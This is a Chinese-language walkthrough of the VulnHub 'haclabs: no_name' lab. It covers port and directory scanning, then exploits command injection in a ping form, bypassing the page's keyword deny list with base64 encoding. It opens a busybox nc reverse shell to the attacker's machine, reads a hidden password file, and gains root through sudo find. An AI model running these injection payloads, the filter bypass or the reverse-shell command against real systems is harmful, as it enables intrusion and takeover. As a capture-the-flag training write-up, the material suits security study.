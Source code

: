 # haclabs: no_name

2024-5-27 https://www.vulnhub.com/entry/haclabs-no_name,429/

difficulty: Beginner/intermediate

## IP

192.168.5.29

## Scan

Open Port -> 80

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

gobuster 得到 2 个页面链接：

```
http://192.168.5.29/index.php
http://192.168.5.29/admin
```

/admin 打不开。

/index.php 是一个提交内容页面，输入框中输入一个字符，显示 fake ping execute，应该是后台在做 ping 操作，这里可能存在 RCE。但是经过测试，发现不能执行命令，是个假的 ping。

换一个其他的字典，看看能不能找到其他页面：

```
gobuster -t 64 dir -u http://192.168.5.29/ -k -w /usr/share/wordlists/dirb/big.txt -x php,txt,html -e
```

发现 http://192.168.5.29/superadmin.php 显示了一个 ping 窗口，这时输入 127.0.0.1 发现显示了 ping 的操作，这里就可以执行反弹的命令,kali 上监听 8888 端口：

```
127.0.0.1|id
```

能够显示 www-data，换成其他的命令，发现不能反弹，应该是目标系统上有防护，对特定关键词进行了过滤。

尝试读取 superadmin.php 的源码：

```
curl --data-urlencode "pinger=127.0.0.1|cat superadmin.php" --data-urlencode "submitt=%E6%8F%90%E4%BA%A4"  http://192.168.5.29/superadmin.php

<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>
```

如果 pinger 中有 word 中的关键词，验证就不通过。可以利用 base64 编码进行绕过：

```
POST /superadmin.php HTTP/1.1
Host: 192.168.5.29
Content-Length: 73
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Origin: http://192.168.5.29
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.5.29/superadmin.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

pinger=127.0.0.1|`echo%20bHMgLWFs|base64%20-d`&submitt=%E6%8F%90%E4%BA%A4
```

ls -al 经过 base64 编码为 bHMgLWFs，可以看到所有的文件：

```
total 6132
drwxr-xr-x 2 root root    4096 Jan 30  2020 .
drwxr-xr-x 3 root root    4096 Jan 27  2020 ..
-rw-r--r-- 1 root root 1019381 Dec 27  2019 Short.png
-rw-r--r-- 1 root root     417 Jan 27  2020 admin
-rw-r--r-- 1 root root 1303340 Jan  8  2020 ctf-01.jpg
-rw-r--r-- 1 root root   10486 Jan 30  2020 haclabs.jpeg
-rw-r--r-- 1 root root     279 Jan 30  2020 index.php
-rw-r--r-- 1 root root 3919716 Dec 30  2019 new.jpg
-rw-r--r-- 1 root root     523 Jan 30  2020 superadmin.php
```

将 nc 的反弹命令经过 base64 编码：

```
busybox   nc 192.168.5.3 8888 -e /bin/bash

YnVzeWJveCAgIG5jIDE5Mi4xNjguNS4zIDg4ODggLWUgL2Jpbi9iYXNo

pinger=127.0.0.1|`echo%20YnVzeWJveCAgIG5jIDE5Mi4xNjguNS4zIDg4ODggLWUgL2Jpbi9iYXNo|base64%20-d`&submitt=%E6%8F%90%E4%BA%A4
```

得到反弹 shell 后，先升级 tty，查看 /etc/passwd 找到存在用户：

```
www-data@haclabs:/var/www/html$ cat /etc/passwd |grep bash
root:x:0:0:root:/root:/bin/bash
haclabs:x:1000:1000:haclabs,,,:/home/haclabs:/bin/bash
yash:x:1001:1001:,,,:/home/yash:/bin/bash
```

得到 flag1 的提示：

```
www-data@haclabs:/home/yash$ cat flag1.txt
Due to some security issues,I have saved haclabs password in a hidden file.
```

经过寻找，发现文件 /usr/share/hidden/.passwd:

```
www-data@haclabs:/home/haclabs$ cat /usr/share/hidden/.passwd
haclabs1234
```

su 切换到 haclabs,得到 flag2：

```
www-data@haclabs:/home/haclabs$ cat flag2.txt
I am flag2

	   ---------------               ----------------


                               --------
```

sudo 发现：

```
(root) NOPASSWD: /usr/bin/find
```

利用 sudo find 获得 root 权限：

```
haclabs@haclabs:~$ sudo -u root find . -exec /bin/sh \; -quit
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
flag3.txt
# cat flag3.txt
Congrats!!!You completed the challenege!



						   ()    ()

						 \	    /
						  ----------
```

